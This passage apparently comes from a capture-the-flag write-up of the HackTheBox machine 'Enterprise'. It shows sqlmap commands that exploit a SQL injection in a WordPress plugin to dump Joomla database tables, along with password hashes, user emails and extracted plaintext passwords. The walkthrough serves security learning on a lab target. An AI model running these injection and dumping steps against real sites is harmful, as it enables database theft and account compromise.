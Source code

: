 
With some `cut` and `sed`, I can get the list of unique passwords:

    
    
    oxdf@parrot$ grep 'Passwords' ~/.local/share/sqlmap/output/enterprise.htb/dump/wordpress/wp_posts.csv | cut -d',' -f14 | sed 's/\\r\\n\\r\\n/\n/g' | sort -u | grep -v quickly
     
    enterprisencc170
    u*Z14ru0p#ttj83zS6
    ZD3YxfnSjezg67JZ
    ZxJyhGem4k338S2Y
    

The first line is a space, though I’d be surprised if that is a valid
password.

The `joomla` DB doesn’t have any tables, but the `joomladb` table has a ton:

    
    
    oxdf@parrot$ sqlmap -u enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1 --batch -D joomladb --tables
    ...[snip]...
    [72 tables]                      
    +-------------------------------+
    | edz2g_assets                  |
    | edz2g_associations            |
    | edz2g_banner_clients          |
    | edz2g_banner_tracks           |
    ...[snip]...
    

The `edz2g_users` table returns two more users:

    
    
    oxdf@parrot$ sqlmap -u enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1 --batch -D joomladb -T edz2g_users --dump
    ...[snip]...
    Database: joomladb
    Table: edz2g_users
    [2 entries]
    +-----+------------+---------+-------+--------------------------------+---------+----------------------------------------------------------------------------------------------+--------------------------------------------------------------+-----------------+-----------+------------+------------+---------------------+--------------+---------------------+---------------------+
    | id  | name       | otep    | block | email                          | otpKey  | params                                                                                       | password                                                     | username        | sendEmail | activation | resetCount | registerDate        | requireReset | lastResetTime       | lastvisitDate       |
    +-----+------------+---------+-------+--------------------------------+---------+----------------------------------------------------------------------------------------------+--------------------------------------------------------------+-----------------+-----------+------------+------------+---------------------+--------------+---------------------+---------------------+
    | 400 | Super User | <blank> | 0     | geordi.la.forge@enterprise.htb | <blank> | {"admin_style":"","admin_language":"","language":"","editor":"","helpsite":"","timezone":""} | $2y$10$cXSgEkNQGBBUneDKXq9gU.8RAf37GyN7JIrPE7us9UBMR9uDDKaWy | geordi.la.forge | 1         | 0          | 0          | 2017-09-03 19:30:04 | 0            | 0000-00-00 00:00:00 | 2017-10-17 04:24:50 |
    | 401 | Guinan     | <blank> | 0     | guinan@enterprise.htb          | <blank> | {"admin_style":"","admin_language":"","language":"","editor":"","helpsite":"","timezone":""} | $2y$10$90gyQVv7oL6CCN8lF/0LYulrjKRExceg2i0147/Ewpb6tBzHaqL2q | Guinan          | 0         | <blank>    | 0          | 2017-09-06 12:38:03 | 0            | 0000-00-00 00:00:00 | 0000-00-00 00:00:00 |
    +-----+------------+---------+-------+--------------------------------+---------+----------------------------------------------------------------------------------------------+--------------------------------------------------------------+-----------------+-----------+------------+------------+---------------------+--------------+---------------------+---------------------+
    ...[snip]...
    